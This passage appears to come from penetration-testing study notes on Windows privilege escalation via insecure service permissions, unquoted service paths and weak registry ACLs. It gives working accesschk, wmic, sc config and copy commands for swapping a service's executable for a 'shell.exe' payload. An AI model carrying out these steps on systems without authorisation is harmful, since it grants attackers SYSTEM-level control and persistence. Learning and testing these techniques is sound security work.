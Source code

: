 ??? info "info"
If our user has permission to change the configuration of a service which runs with SYSTEM privileges, we can change the executable the service uses to one of our own.
Potential Rabbit Hole: If you can change a service configuration but cannot stop/start the service, you may not be able to escalate privileges!”

Enumerate for vulnerable services (Can change Authenticated Users to other group)

```powershell
C:\Cas> .\accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```

Enumerate for user permisson on a service

```powershell
C:\Cas> .\accesschk.exe /accepteula -ucqv <service_name>
```

Then, change service config

```powershell
C:\Cas> sc config <service_name> binpath= "C:\Cas\shell.exe"
```

#### Unquoted Service Path

??? info "info"
In Windows, if the service is not enclosed within quotes and is having spaces, it would handle the space as a break and pass the rest of the service path as an argument.
If we have permission to write a custom file to wither c:\\ or c:\\Program Files or c:\\Program Files\\Unquoted Path Service, then we can exploit this vulnerability to gain elevated privileges.

Enumerate for unquoted service paths

```powershell
C:\Cas> wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\" |findstr /i /v """
```

Check user permission on folders:

```powershell
C:\Cas> .\accesschk.exe /accepteula -uwdqs users "C:\Program Files\Unquoted Path Service\Common Scripts"
```

```powershell
C:\Cas> copy shell.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

#### Weak Registry Permissions

??? info "info"
The Windows registry stores entries for each service.  
 Since registry entries can have ACLs(access control lists), if the ACL is misconfigured, it may be possible to modify a service’s configuration even if we cannot modify the service directly.
If the permissions for users and groups are not properly set and allow access to the Registry keys for a service, then we can change the service binPath/ImagePath to point to a different executable under their control. When the service starts or is restarted, then our program will execute, allowing the us to gain persistence and/or privilege escalation to the account context the service is set to execute under (local/domain account, SYSTEM, LocalService, or NetworkService).

